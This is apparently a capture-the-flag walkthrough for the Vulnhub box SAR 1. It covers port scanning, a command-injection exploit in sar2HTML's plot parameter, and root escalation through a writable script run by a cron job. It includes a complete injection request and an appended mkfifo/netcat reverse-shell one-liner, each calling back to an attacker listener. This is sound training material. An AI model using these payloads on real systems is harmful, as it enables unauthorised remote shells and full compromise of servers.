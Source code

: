 ```yaml
---
title: SAR 1
category: Vulnhub
---
```


## Enumeration

- Using NMAP, found http application listening on 80/tcp

```plaintext
# Nmap 7.80 scan initiated Sun Sep  6 20:28:40 2020 as: nmap -sC -sV -oA quick 192.168.112.35
Nmap scan report for 192.168.112.35
Host is up (0.17s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:40:be:13:cf:51:7d:d6:a5:9c:64:c8:13:e5:f2:9f (RSA)
|   256 8a:4e:ab:0b:de:e3:69:40:50:98:98:58:32:8f:71:9e (ECDSA)
|_  256 e6:2f:55:1c:db:d0:bb:46:92:80:dd:5f:8e:a3:0a:41 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  6 20:29:16 2020 -- 1 IP address (1 host up) scanned in 35.65 seconds

```

- After running nikto, found one entry on **robots.txt** mentioning **sar2HTML**

```plaintext
sar2HTML
```

## User Flag

- Checking the app on searchsploit found a RCE vulnerability for version 3.2.1, which is the same version currently running in this box, where would be possible get RCE from plot parameter

```plaintext
└─$ searchsploit sar2html
----------------------------------------------------------------------------------- ---------------------------
  Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------
Sar2HTML 3.2.1 - Remote Command Execution                                          | php/webapps/47204.txt
----------------------------------------------------------------------------------- ---------------------------
Shellcodes: No Results
```

- Successfully obtained a reverse shell using the following request

```http
GET /sar2HTML/index.php?plot=;rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.49.112+4443+>/tmp/f HTTP/1.1
Host: 192.168.112.35
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=qp8ntm774js13nahouoon1kvdu
Upgrade-Insecure-Requests: 1
```

- Enumerating readable files     under /home, found the list below, where the user flag was found:

```plaintext
www-data@sar:/var/www$ find /home -type f -readable 2> /dev/null
/home/local.txt
/home/love/.sudo_as_admin_successful
/home/love/.bashrc
/home/love/.selected_editor
/home/love/.bash_logout
/home/love/.profile
/home/love/Desktop/user.txt
www-data@sar:/var/www$ cat /home/local.txt
0462238a22547746e340454e9cdc041a
```

Root Flag:

- After running LinEnum.sh     identified that there was a cron running as root every 5 minutes, calling     a file ./finally under html folder, which invoke a ./write.sh file at the     same directory.
- Besides not having access on     this file it calls ./write.sh, which is writable.
- Appended the command line     below to write.sh to start a reverse shell to box as root
  - rm /tmp/g;mkfifo /tmp/g;cat      /tmp/g|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/g
- After getting the shell, was     able to retrieve root flag under /root/root.txt containing the value:

```plaintext
# ls -la
total 40
drwx------  5 root root 4096 Sep  8 05:11 .
drwxr-xr-x 24 root root 4096 Mar 10 11:41 ..
-rw-------  1 root root    0 Jul 24 20:39 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jul 14 22:02 .cache
drwx------  3 root root 4096 Oct 20  2019 .gnupg
drwxr-xr-x  3 root root 4096 Oct 20  2019 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Sep  8 05:12 proof.txt
-rw-r--r--  1 root root   32 Jul 14 17:41 root.txt
-rw-r-----  1 root root    5 Sep  8 05:25 .vboxclient-display-svga.pid
# cat root.txt
Your flag is in another file...
# cat proof.txt
6fe4f0598f601e515664cec37fa579b8
# 
```
